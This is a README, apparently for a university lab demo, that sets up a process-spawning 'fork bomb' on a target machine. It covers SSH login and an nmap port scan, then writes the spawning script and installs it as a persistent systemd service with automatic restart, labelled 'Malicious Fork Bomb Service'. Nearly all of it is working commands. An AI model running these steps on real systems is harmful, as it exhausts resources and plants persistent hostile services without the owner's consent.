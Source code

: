 # Fork Bomb Demo

This demo showcases the setup and execution of a fork bomb on a remote machine. The fork bomb script is installed as a systemd service and runs under the demo user.

## Prerequisites

- SSH access to the target machine (ST24-401D) with user `cs401`.
- `sudo` privileges on the target machine.
- Basic understanding of systemd services and bash scripting.

## Steps

1. **Login to the Target Machine**

    Use SSH to log in to the target machine with the `cs401` user.

    ```bash
    ssh cs401@ST24-401D
    ```

1. **Run a Port Scan**

    Perform a port scan on the target machine to identify open ports.

    ```bash
    nmap -p 1-30 10.10.248.158
    ```

1. **SSH into the Target Machine as the Demo User**

    Switch to the demo user on the target machine.

    ```bash
    ssh demo@10.10.248.158
    ```

1. **Create the Fork Bomb Script**

    Create a bash script that continuously spawns child processes.

    ```bash
    sudo touch /usr/local/bin/fork_bomb.sh
    ```

    ```bash
    sudo tee /usr/local/bin/fork_bomb.sh > /dev/null << EOF
    #!/bin/bash

    create_child_process() {
        sleep 9999 &
        child_pid=\$!
        echo "Created child process with PID: \$child_pid"
    }

    trap 'kill \$(jobs -p); exit' SIGINT SIGTERM

    while true
    do
        for i in \$(seq 1 10);
        do
            create_child_process
        done
        sleep 2
    done
    EOF
    ```

1. **Make the Script Executable and Set Ownership**

    Grant execute permissions to the script and change its ownership to the demo user.

    ```bash
    sudo chmod +x /usr/local/bin/fork_bomb.sh
    ```

    ```bash
    sudo chown demo: /usr/local/bin/fork_bomb.sh
    ```

1. **Create a systemd Service for the Fork Bomb**

    Set up a systemd service to manage the fork bomb script.

    ```bash
    sudo touch /etc/systemd/system/fork.service
    ```

    ```bash
    sudo tee /etc/systemd/system/fork.service > /dev/null << EOF
    [Unit]
    Description=Malicious Fork Bomb Service
    After=network.target

    [Service]
    ExecStart=/usr/local/bin/fork_bomb.sh
    ExecStop=/bin/kill -s SIGTERM \$MAINPID
    Restart=always
    User=demo
    KillMode=process
    Type=simple

    [Install]
    WantedBy=multi-user.target
    EOF
    ```

1. **Reload systemd and Start the Fork Bomb Service**

    Reload systemd to recognize the new service and then start the fork bomb.

    ```bash
    sudo systemctl daemon-reload
    ```

    ```bash
    sudo systemctl start fork.service
    ```